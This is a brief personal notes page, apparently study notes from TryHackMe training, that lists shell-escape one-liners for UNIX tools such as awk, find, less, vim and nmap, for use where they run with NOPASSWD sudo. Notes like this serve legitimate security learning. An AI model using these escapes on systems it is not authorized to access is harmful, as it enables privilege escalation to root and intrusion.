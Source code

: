# Shell Escapes

Many common UNIX applications allow you to escape to a shell. This is particularly useful if they can be run with NOPASSWD via [sudo](enumerate-sudo-access.md).

* `awk` — `awk 'BEGIN {system("/bin/sh")}'`
* `find` — `find . -exec /bin/sh \; -quit`
* `ftp` — `!/bin/sh`
* `iftop` — `!/bin/sh`
* `less` — `!/bin/sh`
* `man` — `!/bin/sh`
* `more` — `!/bin/sh` (may require TERM to be unset)
* `nano` — ^R^X followed by `reset; sh 1>&0 2>&0`
* `nmap` — create a file containing `os.execute("/bin/sh")` and then run `nmap --script=$FILE`
* `vim` — see [Set a Shell in ViM](set-a-shell-in-vim.md)

## References

* [TryHackMe - Complete Beginner](tryhackme-complete-beginner.md)
* [GTFOBins](https://gtfobins.github.io)

- - - -

👤 Nathan Acks
📅 October 31, 2021
